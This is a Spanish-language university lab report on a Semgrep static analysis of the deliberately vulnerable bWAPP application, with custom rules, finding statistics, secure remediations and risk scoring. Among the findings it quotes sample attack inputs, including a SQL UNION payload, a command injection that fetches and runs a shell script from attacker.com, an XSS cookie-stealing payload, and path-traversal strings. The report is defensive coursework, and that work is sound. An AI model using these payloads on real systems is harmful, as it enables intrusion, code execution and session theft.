





# Universidad Mariano Gálvez de Guatemala
### Facultad de Ingeniería en Sistemas de Información y Ciencias de la Computación
### Maestría / Diplomado en Ciberseguridad
### Curso: Seguridad de Aplicaciones

---

# INFORME TÉCNICO Y EVALUACIÓN SAST CON SEMGREP SOBRE bWAPP
### Práctica de Análisis Estático de Código Fuente, Triaje de Vulnerabilidades y Postura de Seguridad

**Estudiante:** Josias Suhul  
**Docente:** Cátedra de Seguridad de Aplicaciones  
**Fecha:** Noviembre de 2026  
**Repositorio GitHub:** [https://github.com/jsuhula/lab-segap-07](https://github.com/jsuhula/lab-segap-07)  
**Dashboard Interactivo:** [`index.html`](index.html)

---

## 1. Introducción y Fundamentos de SAST

El **Análisis Estático de Seguridad de Aplicaciones (SAST - Static Application Security Testing)** es una metodología de evaluación de seguridad de "caja blanca" (*white-box*) que examina el código fuente, código intermedio o binarios de una aplicación sin ejecutarla. Su objetivo fundamental es identificar patrones de codificación inseguros, desbordamientos de flujo de datos (*taint*), fallas de diseño y debilidades arquitectónicas en las fases tempranas del ciclo de vida del desarrollo de software (SSDLC), reduciendo exponencialmente el costo y tiempo de remediación en comparación con vulnerabilidades halladas en fases de producción.

Frente a otras técnicas de evaluación como **DAST** (*Dynamic Application Security Testing*, pruebas de caja negra en tiempo de ejecución) o **IAST** (*Interactive Application Security Testing*, monitoreo mediante agentes instrumentados), el SAST ofrece una cobertura exhaustiva del 100% de los caminos lógicos del código fuente, trazabilidad exacta a nivel de archivo y número de línea, y la posibilidad de integrarse en pipelines de Integración Continua (CI/CD) como compuerta de calidad de seguridad (*quality gate*).

### ¿Por qué Semgrep para este laboratorio?
**Semgrep** es un motor de análisis estático semántico moderno de código abierto diseñado para ser rápido, modular y altamente legible. A diferencia de las herramientas tradicionales basadas en expresiones regulares frágiles (RegEx) o configuraciones complejas de árboles de sintaxis abstracta (AST) propietarias:
1. **Sintaxis idéntica al lenguaje de destino:** Las reglas se declaran en formato YAML y los patrones se redactan utilizando la misma sintaxis del código analizado (en este caso, PHP).
2. **Modo Taint (Seguimiento de Flujo de Datos):** Permite rastrear entradas no confiables del usuario (*sources*) a lo largo de llamadas de funciones, reasignaciones y concatenaciones hasta alcanzar funciones peligrosas (*sinks*), filtrando aquellas entradas que fueron saneadas por funciones de desinfección (*sanitizers*), reduciendo drásticamente la tasa de falsos positivos.
3. **Ejecución local y sin dependencias remotas:** Posibilidad de operar 100% *offline* con reglas personalizadas.
4. **Interoperabilidad estándar:** Exportación directa a formatos de consumo estructurado como JSON y **SARIF** (*Static Analysis Results Interchange Format*), estándar OASIS ampliamente adoptado por GitHub Code Scanning, GitLab y Azure DevOps.

---

## 2. T1 — Entorno de Trabajo y Preparación de Código (10 Puntos)

### 2.1 Instalación de Semgrep
Para la ejecución del laboratorio, se procedió con la instalación de Semgrep utilizando el gestor de paquetes de Python (`pip`):

```bash
# Instalación del motor Semgrep
pip install semgrep

# Verificación de la versión del motor instalado
semgrep --version
```

**Evidencia de Verificación:**
```text
1.185.0
```

El motor Semgrep versión **1.185.0** quedó instalado de forma operativa en el entorno del sistema, habilitando la capacidad de análisis estático multi-lenguaje.

### 2.2 Obtención y Estructura del Código bWAPP
El objetivo del análisis es **bWAPP** (*buggy Web Application*), creada por Malik Mesellem y mantenida en el repositorio de entrenamiento `raesene/bWAPP`. 

El código fuente de la aplicación se obtuvo mediante clonado de Git autenticado o mediante el paquete de artefactos del laboratorio provisto sin conexión. La aplicación fue desglosada en tres componentes funcionales bien diferenciados:

```bash
# Verificación de la estructura de carpetas
Get-ChildItem -Path "bWAPP-app" -Directory
```

**Estructura de Directorios Auditada:**
- `bWAPP-app/`: Aplicación principal vulnerable (183 archivos PHP dedicados a la emulación de fallos de seguridad).
- `bWAPP-app/admin/`: Panel de gestión administrativa del aplicativo (3 archivos PHP).
- `bWAPP-app/soap/`: Componente de servicios web basado en la librería externa de terceros **NuSOAP** (12 archivos PHP).

Total de archivos de código fuente PHP sujetos a auditoría estática: **198 archivos**.

---

## 3. T2 — Comprensión Técnica de Reglas de Semgrep (10 Puntos)

El análisis estático se fundamenta en un conjunto de **14 reglas** definidas en el archivo [`php-sast-rules.yml`](php-sast-rules.yml), las cuales mapean directamente hacia categorías del **OWASP Top 10 (2021)** y debilidades del catálogo **CWE de MITRE**.

A continuación, se presenta la explicación técnica de tres reglas representativas: una basada en el modelo avanzado de **Taint Tracking** y dos basadas en **Coincidencia de Patrones Sintácticos**:

### 3.1 Regla 1 (Modo Taint): Inyección SQL (`php-sql-injection`)
- **Identificador de Regla:** `php-sql-injection`
- **Mapeo:** OWASP **A03:2021 – Injection** | **CWE-89** (*Improper Neutralization of Special Elements used in an SQL Command*)
- **Severidad:** `ERROR` (Alta)
- **Modo de Operación:** `mode: taint`

```yaml
rules:
  - id: php-sql-injection
    languages: [php]
    severity: ERROR
    mode: taint
    message: >-
      Posible inyección SQL (CWE-89): entrada controlada por el usuario llega a
      una consulta SQL construida por concatenación. Use consultas preparadas
      (mysqli prepared statements / PDO con parámetros).
    metadata:
      owasp: "A03:2021 - Injection"
      cwe: "CWE-89"
      category: "SQL Injection"
    pattern-sources:
      - pattern: $_GET
      - pattern: $_POST
      - pattern: $_REQUEST
      - pattern: $_COOKIE
      - pattern: $_SERVER
    pattern-sinks:
      - pattern: mysql_query(...)
      - pattern: mysqli_query(...)
      - pattern: $O->query(...)
      - pattern: $O->real_query(...)
      - pattern: $O->multi_query(...)
      - pattern: pg_query(...)
```

**Análisis de Funcionamiento:**
Esta regla no busca texto estático, sino que modela el flujo de información a través del programa:
- **Fuentes (`pattern-sources`):** Define los puntos de entrada por donde ingresan datos controlados por usuarios o clientes HTTP externos (`$_GET`, `$_POST`, `$_COOKIE`, etc.).
- **Seguimiento (`taint propagation`):** El motor marca las variables receptoras como "contaminadas" (*tainted*) y las sigue a través de asignaciones intermedias y operaciones de concatenación de cadenas (`.` en PHP).
- **Sumideros (`pattern-sinks`):** Funciones del motor de base de datos donde la ejecución de una cadena contaminada deriva en la alteración de la lógica sintáctica de la consulta SQL. Si una variable contaminada alcanza `mysql_query(...)` sin haber atravesado una función de desinfección (*sanitizer*), Semgrep emite un hallazgo bloqueante.

---

### 3.2 Regla 2 (Modo Patrón): Ejecución Dinámica de Código (`php-code-injection-eval`)
- **Identificador de Regla:** `php-code-injection-eval`
- **Mapeo:** OWASP **A03:2021 – Injection** | **CWE-95** (*Improper Neutralization of Directives in Dynamically Evaluated Code*)
- **Severidad:** `ERROR` (Alta)
- **Modo de Operación:** Patrón Sintáctico

```yaml
  - id: php-code-injection-eval
    languages: [php]
    severity: ERROR
    message: >-
      Ejecución dinámica de código (CWE-95): eval/assert/create_function ejecutan
      cadenas como código. Si la cadena incluye datos externos permite RCE.
    metadata:
      owasp: "A03:2021 - Injection"
      cwe: "CWE-95"
      category: "Code Injection"
    pattern-either:
      - pattern: eval(...)
      - pattern: assert(...)
      - pattern: create_function(...)
```

**Análisis de Funcionamiento:**
A diferencia del modo taint, esta regla evalúa la estructura del código mediante `pattern-either`. Detecta cualquier invocación a constructores de ejecución dinámica como `eval(...)`, `assert(...)` o la función deprecada `create_function(...)`. En el desarrollo seguro de software en PHP, el uso de `eval()` con datos variables se considera un antipatrón crítico (*bad practice* absoluto) debido a que abre la puerta directamente a Ejecución Remota de Código (RCE). No requiere rastrear la fuente porque su mera presencia en la base de código representa un riesgo inaceptable.

---

### 3.3 Regla 3 (Modo Patrón): Criptografía y Hashing Inseguro (`php-weak-hash`)
- **Identificador de Regla:** `php-weak-hash`
- **Mapeo:** OWASP **A02:2021 – Cryptographic Failures** | **CWE-328** (*Use of Weak Hash*)
- **Severidad:** `WARNING` (Media)
- **Modo de Operación:** Patrón Sintáctico

```yaml
  - id: php-weak-hash
    languages: [php]
    severity: WARNING
    message: >-
      Función hash criptográficamente rota (CWE-328): MD5 y SHA1 no son seguras
      para contraseñas ni firmas. Use password_hash() o SHA-256+.
    metadata:
      owasp: "A02:2021 - Cryptographic Failures"
      cwe: "CWE-328"
      category: "Weak Hash"
    pattern-either:
      - pattern: md5(...)
      - pattern: sha1(...)
```

**Análisis de Funcionamiento:**
Examina cualquier llamada a las funciones nativas `md5()` o `sha1()`. Algoritmos como MD5 y SHA-1 fueron matemáticamente vulnerados y sufren de ataques prácticos de colisión (colisiones completas demostradas por Google en SHAttered, 2017). Además, cuando se utilizan para almacenar contraseñas, su alta velocidad de cálculo permite a los atacantes crackear miles de millones de hashes por segundo mediante tablas *rainbow* y clusters de GPU. Semgrep identifica estas llamadas para forzar la migración hacia primitivas modernas como `password_hash()` con Argon2id o Bcrypt.

---

## 4. T3 — Ejecución del Escaneo SAST en las 3 Carpetas (15 Puntos)

La evaluación estática se realizó de forma modular sobre los tres proyectos del repositorio, garantizando aislamiento de métricas y permitiendo evaluar tanto el aplicativo principal como sus módulos administrativos y dependencias de terceros.

### 4.1 Comandos de Escaneo Ejecutados

```bash
# Definición de variables de configuración local
R=php-sast-rules.yml
OFF="--metrics=off --disable-version-check --no-git-ignore"

# 1. Escaneo de Proyecto 1: Core bWAPP (excluyendo admin y soap)
semgrep scan --config $R $OFF --exclude admin --exclude soap --json -o semgrep/out/core.json bWAPP-app

# 2. Escaneo de Proyecto 2: admin
semgrep scan --config $R $OFF --json -o semgrep/out/admin.json bWAPP-app/admin

# 3. Escaneo de Proyecto 3: soap (NuSOAP)
semgrep scan --config $R $OFF --json -o semgrep/out/soap.json bWAPP-app/soap
```

### 4.2 Resultados y Conteos por Proyecto

| Proyecto | Carpeta Auditada | Archivos PHP | Hallazgos Totales | Severidad Alta | Severidad Media | Severidad Baja | Rol del Módulo |
| :--- | :--- | :---: | :---: | :---: | :---: | :---: | :--- |
| **Core bWAPP** | `bWAPP-app/` | 183 | **103** | 60 | 40 | 3 | Aplicación vulnerable principal |
| **admin** | `bWAPP-app/admin/` | 3 | **3** | 0 | 2 | 1 | Panel de administración |
| **soap (NuSOAP)** | `bWAPP-app/soap/` | 12 | **32** | 6 | 26 | 0 | Librería de terceros (servicios web) |
| **TOTALES** | **Todas las carpetas** | **198** | **138** | **66** | **68** | **4** | **Auditoría Global bWAPP** |

Los archivos de salida JSON estructurados fueron almacenados con éxito en [`semgrep/out/core.json`](semgrep/out/core.json), [`semgrep/out/admin.json`](semgrep/out/admin.json) y [`semgrep/out/soap.json`](semgrep/out/soap.json).

---

## 5. T4 — Gráficas Estadísticas y Análisis de Datos (10 Puntos)

A través del script de procesamiento de datos [`semgrep/analyze.py`](semgrep/analyze.py), se procesaron las salidas JSON y se generaron las **5 gráficas estadísticas** representativas del estado de seguridad de la aplicación:

### 5.1 Gráfica 1: Hallazgos por Proyecto y Severidad

*Figura 1: Distribución apilada de severidades entre los tres proyectos auditados.*

- **Interpretación Técnica:** El módulo **Core bWAPP** concentra el 74.6% de todos los hallazgos de la aplicación (103 de 138), destacando 60 vulnerabilidades de severidad Alta. El componente **soap (NuSOAP)** aporta 32 hallazgos, en su mayoría de severidad Media vinculados a criptografía obsoleta. El panel **admin** es el más reducido en volumen pero contiene hallazgos de divulgación y contraseñas fijas.

---

### 5.2 Gráfica 2: Hallazgos por Categoría OWASP Top 10 (2021)

*Figura 2: Conteo de debilidades clasificadas según la taxonomía OWASP 2021.*

- **Interpretación Técnica:** Existe un predominio absoluto de la categoría **A03:2021 – Injection** con **73 hallazgos**, lo que representa más del 52% del riesgo total. Le siguen **A02:2021 – Cryptographic Failures** con 29 hallazgos y **A01:2021 – Broken Access Control** con 19 hallazgos. Las fallas de identificación y autenticación (A07:2021) sumaron 13 ocurrencias, y las malas configuraciones de seguridad (A05:2021) aportaron 4.

---

### 5.3 Gráfica 3: Hallazgos por Tipo Específico de Vulnerabilidad

*Figura 3: Desglose pormenorizado por familia de debilidad identificada.*

- **Interpretación Técnica:** La **Inyección SQL (SQLi)** encabeza la lista con **50 casos**, posicionándose como el vector más crítico de exposición de la base de datos. En segundo lugar, se encuentran las funciones de **Hash Débil (24 casos)** y **Redirección Abierta (19 casos)**. Las credenciales embebidas (13) y la inyección de código/comandos (12) completan los patrones más recurrentes.

---

### 5.4 Gráfica 4: Distribución Porcentual por Severidad (Donut Chart)

*Figura 4: Proporción total de hallazgos clasificados por nivel de criticidad.*

- **Interpretación Técnica:** La auditoría revela una distribución sumamente peligrosa para un sistema productivo: **48% de severidad Alta (66)** y **49% de severidad Media (68)**. Solamente un **3% (4 hallazgos)** corresponde a nivel Informativo/Bajo. Prácticamente la mitad de la superficie de código analizada presenta fallas que permiten la toma de control de datos o ejecución de código arbitrario.

---

### 5.5 Gráfica 5: Top 10 Archivos Más Afectados del Core bWAPP

*Figura 5: Archivos PHP del Core con mayor densidad de vulnerabilidades.*

- **Interpretación Técnica:** Los archivos `ba_forgotten.php`, `ba_weak_pwd.php`, `user_extra.php` y `user_new.php` encabezan el ranking con **4 vulnerabilidades cada uno**, combinando inyecciones SQL y debilidades de autenticación. En segundo escalón figuran `csrf_1.php`, `csrf_3.php`, `hostheader_2.php`, `insecure_direct_object_ref_1.php`, `ldap_connect.php` y `xss_stored_3.php` con 3 hallazgos cada uno. Estos 10 archivos representan la prioridad número uno de intervención en una fase de refactorización segura.

---

## 6. T5 — Documentación de 5 Hallazgos Críticos y Remediaciones (20 Puntos)

A continuación, se documentan cinco vulnerabilidades de alta relevancia seleccionadas del escaneo, detallando el archivo, línea, fragmento vulnerable y su correspondiente remediación en código PHP seguro:

### 6.1 Caso 1: Inyección SQL (SQLi)
- **Archivo:** `bWAPP-app/sqli_1.php` (Líneas 60–63)
- **Categoría:** OWASP A03:2021 – Injection | **CWE-89**
- **Severidad:** **Alta** (`ERROR`)

**Fragmento de Código Vulnerable:**
```php
$title = $_GET["title"];
$sql = "SELECT * FROM movies WHERE title LIKE '%" . sqli($title) . "%'";
$recordset = mysql_query($sql, $link);
```

**Análisis de Vulnerabilidad:**
El parámetro `$title` ingresa directamente desde la URL (`$_GET`). La función auxiliar `sqli()` no sanitiza la entrada cuando el nivel de seguridad está configurado en "bajo". La consulta se ensambla mediante concatenación directa de cadenas, permitiendo a un atacante inyectar operadores SQL (e.g., `' UNION SELECT 1,login,password,email,5,6,7 FROM users-- `), extrayendo credenciales o modificando registros de la base de datos.

**Remediación Segura (Prepared Statements con MySQLi):**
```php
$title = $_GET["title"] ?? "";

// 1. Uso de sentencias preparadas parametrizadas
$stmt = $mysqli->prepare("SELECT title, release_year, genre, main_character FROM movies WHERE title LIKE ?");
$param = "%" . $title . "%";
$stmt->bind_param("s", $param);
$stmt->execute();
$result = $stmt->get_result();

while ($row = $result->fetch_assoc()) {
    echo "Película: " . htmlspecialchars($row["title"], ENT_QUOTES, 'UTF-8');
}
$stmt->close();
```

---

### 6.2 Caso 2: Inyección de Comandos de Sistema Operativo (OS Command Injection)
- **Archivo:** `bWAPP-app/commandi.php` (Líneas 40–42)
- **Categoría:** OWASP A03:2021 – Injection | **CWE-78**
- **Severidad:** **Alta** (`ERROR`)

**Fragmento de Código Vulnerable:**
```php
$target = $_POST["target"];
echo "<p>" . shell_exec("nslookup  " . commandi($target)) . "</p>";
```

**Análisis de Vulnerabilidad:**
El valor `$target` se concatena directamente en una instrucción enviada a la shell del sistema operativo a través de `shell_exec()`. Al concatenar metacaracteres de control de consola (tales como `;`, `|`, `&&`, `` ` ``), un atacante puede ejecutar comandos arbitrarios con los privilegios del servidor web (e.g., `127.0.0.1; cat /etc/passwd` o `127.0.0.1; curl attacker.com/shell.sh | bash`).

**Remediación Segura (Validación Estricta + Escapado):**
```php
$target = trim($_POST["target"] ?? "");

// 1. Validar estrictamente que el objetivo sea un dominio o IP válida
if (!filter_var($target, FILTER_VALIDATE_IP) && 
    !filter_var($target, FILTER_VALIDATE_DOMAIN, FILTER_FLAG_HOSTNAME)) {
    http_response_code(400);
    die("<p>Error: Nombre de host o dirección IP no válida.</p>");
}

// 2. Escapar el argumento de shell para evitar inyección de operadores
$safe_target = escapeshellarg($target);
$output = shell_exec("nslookup " . $safe_target);

echo "<pre>" . htmlspecialchars($output, ENT_QUOTES, 'UTF-8') . "</pre>";
```

---

### 6.3 Caso 3: Ejecución Dinámica de Código (Remote Code Execution - RCE)
- **Archivo:** `bWAPP-app/php_eval.php` (Línea 48)
- **Categoría:** OWASP A03:2021 – Injection | **CWE-95**
- **Severidad:** **Alta** (`ERROR`)

**Fragmento de Código Vulnerable:**
```php
@eval($_REQUEST["eval"]);
```

**Análisis de Vulnerabilidad:**
La instrucción `@eval()` toma el parámetro `eval` suministrado por el cliente vía GET o POST y lo ejecuta dinámicamente como código PHP dentro del proceso en ejecución. Un atacante puede suministrar `phpinfo();`, `system('whoami');` o iniciar una *web shell* interactiva completa.

**Remediación Segura (Eliminación Absoluta de eval):**
```php
// En el desarrollo seguro no existe escenario válido para pasar datos externos a eval().
// Se reemplaza por un despachador de operaciones permitidas (Lista Blanca):
$action = $_REQUEST["action"] ?? "fecha_actual";

$dispatcher = [
    "fecha_actual" => function() { return date("Y-m-d H:i:s"); },
    "version_app"  => function() { return "v2.2.0"; },
    "estado"       => function() { return "Operativo"; }
];

if (array_key_exists($action, $dispatcher)) {
    $resultado = $dispatcher[$action]();
    echo "<p>Resultado: " . htmlspecialchars($resultado, ENT_QUOTES, 'UTF-8') . "</p>";
} else {
    http_response_code(400);
    echo "<p>Acción solicitada no soportada.</p>";
}
```

---

### 6.4 Caso 4: Cross-Site Scripting Reflejado (Reflected XSS)
- **Archivo:** `bWAPP-app/xss_get.php` (Líneas 44–46)
- **Categoría:** OWASP A03:2021 – Injection | **CWE-79**
- **Severidad:** **Media** (`WARNING`)

**Fragmento de Código Vulnerable:**
```php
$firstname = $_GET["firstname"];
echo "Welcome " . xss($firstname) . " " . xss($lastname);
```

**Análisis de Vulnerabilidad:**
El parámetro `$firstname` recibido por GET es insertado directamente en el cuerpo HTML retornado al navegador. Si el contexto no implementa una codificación rigurosa de caracteres especiales de marcado, un atacante puede forzar la ejecución de JavaScript en el navegador de la víctima suministrando `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`, permitiendo el secuestro de sesiones.

**Remediación Segura (Codificación Contextual HTML):**
```php
$firstname = $_GET["firstname"] ?? "";
$lastname  = $_GET["lastname"]  ?? "";

// Codificación estricta de caracteres HTML con bandera ENT_QUOTES y UTF-8
$safe_first = htmlspecialchars($firstname, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
$safe_last  = htmlspecialchars($lastname, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');

echo "<p>Welcome " . $safe_first . " " . $safe_last . "</p>";
```

---

### 6.5 Caso 5: Inclusión Local / Remota de Archivos (LFI/RFI)
- **Archivo:** `bWAPP-app/directory_traversal_1.php` (Líneas 40–42)
- **Categoría:** OWASP A01:2021 – Broken Access Control | **CWE-22 / CWE-98**
- **Severidad:** **Alta** (`ERROR`)

**Fragmento de Código Vulnerable:**
```php
$file = $_GET["page"];
include($file);
```

**Análisis de Vulnerabilidad:**
La variable `$file` es consumida por la función `include()` sin sanitizar delimitadores de directorio (`../`). Esto permite Directory Traversal hacia archivos locales sensibles (e.g., `?page=../../../../etc/passwd` o `?page=..\..\windows\win.ini`) o Inclusión Remota de Archivos (RFI) si la directiva `allow_url_include` estuviera activa en `php.ini`.

**Remediación Segura (Extracción de Basename y Lista Blanca):**
```php
$page = $_GET["page"] ?? "intro.php";

// 1. Extraer estrictamente el nombre del archivo, desechando prefijos de ruta
$page_name = basename($page);

// 2. Validar contra catálogo estricto de páginas permitidas
$allowed_pages = [
    "intro.php"   => "pages/intro.php",
    "ayuda.php"   => "pages/ayuda.php",
    "contacto.php"=> "pages/contacto.php"
];

if (!array_key_exists($page_name, $allowed_pages)) {
    http_response_code(404);
    die("<p>Error: El recurso solicitado no existe o no está permitido.</p>");
}

include(__DIR__ . "/" . $allowed_pages[$page_name]);
```

---

## 7. T6 — Triaje Técnico de Falsos Positivos (10 Puntos)

Una de las etapas cardinales en el ciclo de vida del SAST es el **triaje de hallazgos**, proceso donde los ingenieros de seguridad analizan el contexto semántico de cada alerta para diferenciar vulnerabilidades explotables reales de **falsos positivos** generados por limitaciones en las reglas de análisis.

### 7.1 Identificación del Falso Positivo
Durante el escaneo del módulo de terceros **soap (NuSOAP)** (`bWAPP-app/soap/`), la regla de criptografía débil reportó **5 hallazgos** sobre líneas de código que invocan las funciones nativas `base64_encode()` y `base64_decode()` (por ejemplo, en `soap/class.soapclient.php` y `soap/nusoap.php`), clasificándolas como fallas criptográficas de severidad media/alta.

### 7.2 Justificación Técnica de por qué es un Falso Positivo
1. **Diferencia Fundamental entre Cifrado y Codificación:**
   - **Cifrado (Criptografía):** Proceso que transforma texto plano en texto cifrado haciendo uso de una clave secreta para garantizar la **confidencialidad** de los datos.
   - **Codificación (Encoding):** Proceso que transforma una secuencia de bytes en un formato estandarizado legible (en este caso, Base64 según el **RFC 4648** transforma binarios en caracteres ASCII imprimibles) con el fin de **transportar datos** sobre protocolos orientados a texto (como HTTP, SMTP o XML). No provee confidencialidad y es completamente reversible sin clave secreta.
2. **Propósito en el Protocolo SOAP/XML:**
   Los mensajes SOAP están estructurados bajo especificaciones XML. Dado que XML no permite la inserción directa de bytes binarios arbitrarios (como imágenes, certificados o adjuntos), la librería NuSOAP implementa `base64_encode()` exclusivamente para encapsular *payloads* binarios en elementos XML `<SOAP-ENV:Body>`. 
3. **Veredicto del Analista:** El uso de Base64 en este contexto es funcionalmente correcto y no representa una falla criptográfica. Marcar esto como vulnerabilidad genera **fatiga de alertas** y entorpece la relación entre los equipos de Seguridad y Desarrollo.

### 7.3 Propuesta de Ajuste al Ruleset YAML
Para eliminar este falso positivo sin perder la capacidad de detectar algoritmos de cifrado simétrico obsoletos como DES o RC4, se debe ajustar la regla `php-weak-crypto-mcrypt` en el archivo de reglas mediante cláusulas de exclusión explícita (`pattern-not`):

```yaml
rules:
  - id: php-weak-crypto-mcrypt
    languages: [php]
    severity: WARNING
    message: >-
      Uso de algoritmo criptográfico obsoleto o roto (CWE-327): mcrypt/DES/RC4
      no proveen seguridad moderna. Use openssl_encrypt con AES-256-GCM.
    metadata:
      owasp: "A02:2021 - Cryptographic Failures"
      cwe: "CWE-327"
      category: "Weak Crypto"
    patterns:
      - pattern-either:
          - pattern: mcrypt_encrypt(...)
          - pattern: mcrypt_decrypt(...)
          - pattern: des_encrypt(...)
      # Reglas de exclusión para transporte y codificación:
      - pattern-not: base64_encode(...)
      - pattern-not: base64_decode(...)
```

---

## 8. T7 — Postura de Seguridad y Análisis de Riesgo Ejecutivo (15 Puntos)

### 8.1 Cálculo del Índice Ponderado de Riesgo

Para cuantificar objetivamente la deuda técnica de seguridad de la aplicación, se aplica el modelo de ponderación estandarizado por criticidad:
- **Severidad Alta:** Factor de peso 5
- **Severidad Media:** Factor de peso 3
- **Severidad Baja:** Factor de peso 1

$$\text{Índice Ponderado} = (\text{Alta} \times 5) + (\text{Media} \times 3) + (\text{Baja} \times 1)$$

Sustituyendo con los hallazgos reales del escaneo:
$$\text{Índice} = (66 \times 5) + (68 \times 3) + (4 \times 1) = 330 + 204 + 4 = \mathbf{538 \text{ puntos de riesgo}}$$

